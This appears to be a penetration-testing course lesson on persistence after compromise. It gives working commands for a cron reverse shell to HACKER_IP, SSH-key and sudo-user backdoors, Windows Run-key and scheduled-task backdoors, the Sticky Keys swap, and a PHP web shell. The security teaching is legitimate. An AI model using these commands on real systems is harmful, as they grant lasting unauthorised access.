

# Persistence Techniques

Once you've compromised a system and gained root/admin access, you don't want to lose it if the administrator restarts the server or fixes the initial vulnerability. **Persistence** is the art of leaving a "backdoor" that allows you to return to the system easily.

---

## 1. Linux Persistence

### SSH Keys
The cleanest way to maintain access. Simply add your public SSH key to the target user's `authorized_keys` file.

<TerminalWindow cmd="echo 'ssh-rsa AAAAB3Nza...' >> /home/victim/.ssh/authorized_keys" output="[!] SSH Persistence Established: No password needed for return." />

### Cron Jobs
Schedule a task to reach back to your machine every hour.
`echo "0 * * * * /bin/bash -c 'bash -i >& /dev/tcp/HACKER_IP/4444 0>&1'" >> /etc/crontab`

### User Modification
Create a new user with root privileges.
`useradd -m -s /bin/bash evil_user; echo "evil_user:password123" | chpasswd; usermod -aG sudo evil_user`

---

## 2. Windows Persistence

### Registry Run Keys
Windows has specific registry keys that run programs every time a user logs in.
`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\Users\Public\backdoor.exe"`

### Scheduled Tasks
Similar to Cron, Windows has an advanced Task Scheduler.
<TerminalWindow cmd="schtasks /create /sc minute /mo 30 /tn 'System Update' /tr 'C:\Users\Public\shell.exe' /ru 'SYSTEM'" output="SUCCESS: The scheduled task 'System Update' has successfully been created." />

### Sticky Keys (The Classic)
A famous trick: Rename `cmd.exe` to `sethc.exe` (Sticky Keys). When you press Shift 5 times at the login screen, a SYSTEM command prompt pops up!

---

## 3. Web Shells

If the target is a web server, you can leave a small piece of code in a hidden directory.

**Example (PHP):**
`<?php system($_GET['cmd']); ?>`

**Usage:**
`http://target.com/assets/images/logo.php?cmd=whoami`

---

## Visualizing the Backdoor

---

## Knowledge Check

<Quiz 
  question="Where is the public SSH key typically stored on a Linux system to allow passwordless login?"
  options={["/etc/ssh/ssh_config", "/home/user/.ssh/authorized_keys", "/var/log/ssh.log", "/etc/shadow"]}
  answer="/home/user/.ssh/authorized_keys"
  explanation="The authorized_keys file contains a list of public keys allowed to authenticate as that user."
/>
